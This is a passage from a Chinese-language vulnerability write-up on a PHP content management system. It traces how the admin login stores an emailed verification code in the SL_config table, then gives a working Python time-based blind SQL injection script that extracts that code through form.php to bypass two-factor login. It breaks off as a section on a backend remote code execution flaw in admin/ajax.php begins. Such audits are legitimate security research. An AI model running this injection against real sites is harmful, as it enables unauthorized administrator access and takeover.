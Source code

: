- （1）取出上次管理员登录的IP，如果为空则设置0.0.0.0
- （2）判断账号米啊么是否正确
- （3）检查管理员邮箱是否正确，如果不正确的话，验证码设置为123456
- （4）调用checkip参数判断IP是否与上次登录一致

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2554e9c083604485bbedd65fae5e056029af725b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2554e9c083604485bbedd65fae5e056029af725b.png)

- （5）当IP与上次登录不一致时，判断二次验证是否开启（默认开启）
- （6）然后生成6位随机码，调用sendmail发送给管理员，并将随机码存入SL\_config的C\_test列中。

综上所述，我们可以通过注入SL\_config表的C\_test列，获取验证码，代码如下：

```python
import requests,time

x = [str(x) for x in range(0, 10)]
y = [chr(y) for y in range(97, 123)]
# z = [chr(y) for y in range(65, 90)] # 大写字母
dic = x+y

url="http://127.0.0.1/"

result=''
dic= [str(x) for x in range(0, 10)]
for i in range(1,7):
    for j in dic:
        data={
            "1-if((select(substr(C_test,{},1))from/**/SL_config)='{}',sleep(5),1)".format(str(i),j):"xxx"
        }
        startTime = time.time()
        res = requests.post(url+'/function/form.php?action=input',data=data)
        endTime = time.time()
        if endTime - startTime > 5:
            result=result+j
            print('[+] 验证码：'+result)
            break
```

至此，终于历经千难万险进入到后台中了。接下来看后台RCE。

2.后台RCE
=======

2.1 后台RCE-1修改文件绕过
-----------------

漏洞点在于：admin/ajax.php

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-016dc96137aac9be11f63ef425928b1d6c8e4edc.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-016dc96137aac9be11f63ef425928b1d6c8e4edc.png)

在该文件中对修改内容做了几点判断：
